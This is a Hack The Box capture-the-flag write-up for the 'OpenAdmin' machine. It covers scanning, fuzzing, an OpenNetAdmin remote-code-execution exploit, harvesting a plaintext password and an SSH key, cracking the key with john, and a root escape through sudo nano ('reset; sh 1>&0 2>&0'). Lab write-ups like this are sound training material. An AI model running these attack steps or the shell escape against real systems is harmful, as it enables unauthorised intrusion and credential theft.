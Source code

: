 ```yaml
---
date: 2020-05-17 06:52:37
layout: post
title: "Openadmin"
subtitle: Hackthebox
description:
image: /writeup/assets/img/openadmin/openadmin.png
optimized_image:
category: Hackthebox
tags: OpenNetadmin
author:
paginate: false
---
```


Starting with the nmap scan,
```bash
nmap -T4 -p- -A 10.10.10.171
```
Found 2 open ports.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.18 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   470.80 ms 10.10.14.1
2   455.86 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.60 seconds
```
Opening the website hosted at port 80.We get a default apache2 page.
Fuzzing for directories and pages 
```bash
ffuf -w wordlist -u http://10.10.10.171/FUZZ -e .php,.html
```
We get a directory **/music** and **/ona**.
![placeholder](/writeup/assets/img/openadmin/music.png "website")
Music directory contains a fine website and the ona directory contains the OpenNetAdmin panel.
![placeholder](/writeup/assets/img/openadmin/panel.png "ona")

The version of opennetadmin is 18.1.1 which is vulnerable to a remote code execution exploit.
![placeholder](/writeup/assets/img/openadmin/ona.png "exploit")

Using the exploit we get a shell.
```bash
exp.sh http://10.10.10.171/ona/
```
![placeholder](/writeup/assets/img/openadmin/shell.png "shell")

Eumerating thorugh the machine we get a file */var/www/ona/local/config* which contains password for suer jimmy.

**jimmy:n1nj4W4rri0R!**

Inside the /var/www directory, we get a direcctory named Internal . index.php isnide the internal directory contains a username jimmy and a hash which on reverse lookup comes to be **Revealed**.
Looking for open ports
```bash
netstat -tulpn
``` 
![placeholder](/writeup/assets/img/openadmin/ports.png "ports")
We found 1 unusual port 52846.
Maybe a site is hosted internally as it seems to be by the name of directory and the open port 52846.

Inside /etc/apache2/sites_enabled, we get three conf file, one among which states that a site is being operated internally.
```conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htbbloodninjas
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
Let's connect and see what can we get.
Since we know by looking in the files inside Internal directory tht index.php will be used to login and then main.php will show the ssh private key of user joanna.

```bash
curl -s http://127.0.0.1:52846/index.php -c cookie -d “username=jimmy&password=Revealed”
# -c is used to store session data in a cookie named cookie
# -d holds the data to provided in login form
```
and then
```bash
curl  -s http://127.0.0.1:52846/main.php -b cookie
#-b to fetch the cookie named cookie
```
We get the ssh private key for user joanna.
Cracking the key with john shows the passphrase **bloodninjas**

```bash
$ ssh2john.py priv_key > hash
$ john --wordlist=rockyou.txt hash
```
Logged in thorugh ssh.

```bash
ssh -i priv_key joanna@10.10.10.171
```
Got the joanna's shell as well as user.txt.

```bash
sudo -l
```
![placeholder](/writeup/assets/img/openadmin/sudo.png "sudo")
This shows that we can open /opt/priv by nano with root privileges.

Time for GTFObins.

Got the command needed to escalate our privileges
Open the file /opt/priv with root privileges as stated in sudoers file 
```bash
sudo /bin/nano /opt/priv 
```
Now ***Ctrl+R*** then ***Ctrl+X***
We will get tab at bottom to write command to execute. Type 
***reset; sh 1>&0 2>&0*** 

Got the root shell and the root.txt.


